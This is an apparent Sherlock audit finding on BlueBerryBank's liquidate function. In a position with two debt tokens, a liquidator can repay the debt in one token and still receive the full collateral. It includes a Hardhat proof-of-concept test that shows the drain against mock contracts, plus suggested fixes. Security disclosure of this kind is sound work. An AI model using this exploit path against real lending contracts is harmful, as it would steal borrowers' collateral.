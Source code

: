 cducrest-brainbot

high

# Liquidate pays out full colateral for one token repaid

## Summary

In `BlueBerryBank.sol`, the `liquidate` function allows any user to repay the debt of a liquidatable position for a specific token and send the collateral of the position to the liquidator. However, how it is implemented means that for a position with two debt tokens, the liquidator can fully repay the debt of only one of the tokens and receive the full collateral while they should receive only part of it.

## Vulnerability Detail

Liquidate will check if a debt is liquidatable (line 517) which checks the liquidation criteria using the collateral and the debt value of every debt tokens in the position (getDebtValue line 451). However, it then only consider the debt share of a single token for repaying the debt and checking which portion of collateral to send to the liquidator (line 522 - 531).

## Impact

If a user borrowed 300 USDC with 100 ICHI collateral and 3 ICHI with 1 ICHI collateral, and becomes liquidatable (e.g. through the fall of ICHI price), anyone can repay the 3 ICHI debt and receive the full 101 ICHI collateral as reward.

## Code Snippet

Liquidate function:

https://github.com/sherlock-audit/2023-02-blueberry/blob/main/contracts/BlueBerryBank.sol#L511-L572

getDebtValue, showing how it takes into account every debt token of the position: 

https://github.com/sherlock-audit/2023-02-blueberry/blob/main/contracts/BlueBerryBank.sol#L451-L475

## Tool used

Manual Review

Testing:

<details><summary>bank.test.ts</summary>
<p>

```typescript
import { SignerWithAddress } from '@nomiclabs/hardhat-ethers/signers';
import chai, { expect } from 'chai';
import { BigNumber, constants, utils } from 'ethers';
import { ethers, upgrades } from 'hardhat';
import {
	BlueBerryBank,
	CoreOracle,
	IchiVaultSpell,
	IWETH,
	SoftVault,
	MockOracle,
	IchiLpOracle,
	WERC20,
	WIchiFarm,
	ProtocolConfig,
	MockIchiVault,
	ERC20,
	MockIchiV2,
	MockIchiFarm,
	HardVault
} from '../typechain-types';
import { ADDRESS, CONTRACT_NAMES } from '../constant';
import SpellABI from '../abi/IchiVaultSpell.json';

import { solidity } from 'ethereum-waffle'
import { near } from './assertions/near'
import { roughlyNear } from './assertions/roughlyNear'
import { Protocol, setupProtocol } from './setup-test';

chai.use(solidity)
chai.use(near)
chai.use(roughlyNear)

const CUSDC = ADDRESS.bUSDC;
const WETH = ADDRESS.WETH;
const USDC = ADDRESS.USDC;
const ICHI = ADDRESS.ICHI;
const ICHIV1 = ADDRESS.ICHI_FARM;
const ICHI_VAULT_PID = 0; // ICHI/USDC Vault PoolId

describe('Bank', () => {
	let admin: SignerWithAddress;
	let alice: SignerWithAddress;
	let treasury: SignerWithAddress;

	let usdc: ERC20;
	let ichi: MockIchiV2;
	let ichiV1: ERC20;
	let weth: IWETH;
	let werc20: WERC20;
	let mockOracle: MockOracle;
	let ichiOracle: IchiLpOracle;
	let oracle: CoreOracle;
	let spell: IchiVaultSpell;
	let wichi: WIchiFarm;
	let bank: BlueBerryBank;
	let config: ProtocolConfig;
	let usdcSoftVault: SoftVault;
	let ichiSoftVault: SoftVault;
	let hardVault: HardVault;
	let ichiFarm: MockIchiFarm;
	let ichiVault: MockIchiVault;
	let protocol: Protocol;

	before(async () => {
		[admin, alice, treasury] = await ethers.getSigners();
		usdc = <ERC20>await ethers.getContractAt("ERC20", USDC);
		ichi = <MockIchiV2>await ethers.getContractAt("MockIchiV2", ICHI);
		ichiV1 = <ERC20>await ethers.getContractAt("ERC20", ICHIV1);
		weth = <IWETH>await ethers.getContractAt(CONTRACT_NAMES.IWETH, WETH);

		protocol = await setupProtocol();
		config = protocol.config;
		bank = protocol.bank;
		spell = protocol.spell;
		ichiFarm = protocol.ichiFarm;
		ichiVault = protocol.ichi_USDC_ICHI_Vault;
		wichi = protocol.wichi;
		werc20 = protocol.werc20;
		oracle = protocol.oracle;
		mockOracle = protocol.mockOracle;
		usdcSoftVault = protocol.usdcSoftVault;
		ichiSoftVault = protocol.ichiSoftVault;
		hardVault = protocol.hardVault;
	})

	beforeEach(async () => {
	})

	describe("Liquidation", () => {
		const depositAmount = utils.parseUnits('100', 18); // worth of $400
		const borrowAmount = utils.parseUnits('300', 6);
		const iface = new ethers.utils.Interface(SpellABI);

		beforeEach(async () => {
			await usdc.approve(bank.address, ethers.constants.MaxUint256);
			await ichi.approve(bank.address, ethers.constants.MaxUint256);
			await bank.execute(
				0,
				spell.address,
				iface.encodeFunctionData("openPosition", [
					0,
					ICHI,
					USDC,
					depositAmount,
					borrowAmount // 3x
				])
			)

			await bank.execute(
				1,
				spell.address,
				iface.encodeFunctionData("openPosition", [
					0,
					ICHI,
					ICHI,
					utils.parseUnits('1', 18),
					utils.parseUnits('3', 18), // 3x
				])
			)
		})
		it.only("should be able to liquidate the position => (OV - PV)/CV = LT", async () => {
			await ichiVault.rebalance(-260400, -260200, -260800, -260600, 0);

			const positionInfoBefore = await bank.getPositionInfo(1);
			console.log(positionInfoBefore)

			console.log('===ICHI token dumped from $5 to $1===');
			await mockOracle.setPrice(
				[ICHI],
				[
					BigNumber.from(10).pow(17).mul(10), // $0.5
				]
			);

			expect(await bank.isLiquidatable(1)).to.be.true;

			const ichiBalanceBefore = await ichi.balanceOf(alice.address)
			const aliceIchiSoftVaultBalanceBefore = await ichiSoftVault.balanceOf(alice.address)

			await ichi.connect(alice).approve(bank.address, ethers.constants.MaxUint256)
			await expect(
				bank.connect(alice).liquidate(1, ICHI, utils.parseUnits('3', 18))
			).to.be.emit(bank, "Liquidate");
			
			const positionInfo = await bank.getPositionInfo(1);
			console.log(positionInfo)

			const ichiBalanceAfter = await ichi.balanceOf(alice.address)
			const aliceIchiSoftVaultBalanceAfter = await ichiSoftVault.balanceOf(alice.address)

			expect(positionInfo.collateralSize).to.be.lt(utils.parseUnits('1', 2))  // position is almost 0 (due to fees / rounding it's not 0)
			expect(positionInfoBefore.collateralSize.sub(positionInfo.collateralSize)).to.be.roughlyNear(positionInfoBefore.collateralSize)  // position is almost 0

			expect((ichiBalanceBefore.sub(ichiBalanceAfter).toString())).to.equal(utils.parseUnits('3', 18))  // alice repaid 3
			expect(aliceIchiSoftVaultBalanceAfter.sub(aliceIchiSoftVaultBalanceBefore)).to.be.roughlyNear(positionInfoBefore.underlyingVaultShare)  // alice received roughly all the share
		})
	})
})
```

</p>
</details>

## Recommendation

One fix is not to allow partial liquidation and only allow for liquidations if the liquidator pays out the debt for every token in the position. This comes with the challenge that positions with unpopular debt tokens are hard to liquidate, and that users may not be willing to use `type(uint256).max` as repaid amount for fear of front-running transactions that may accrue additional debt, so there will always be dust amount of debts.

The other solution is to calculate the value of debt repaid compared to the total debt and only transfer that share of collateral to the liquidator.
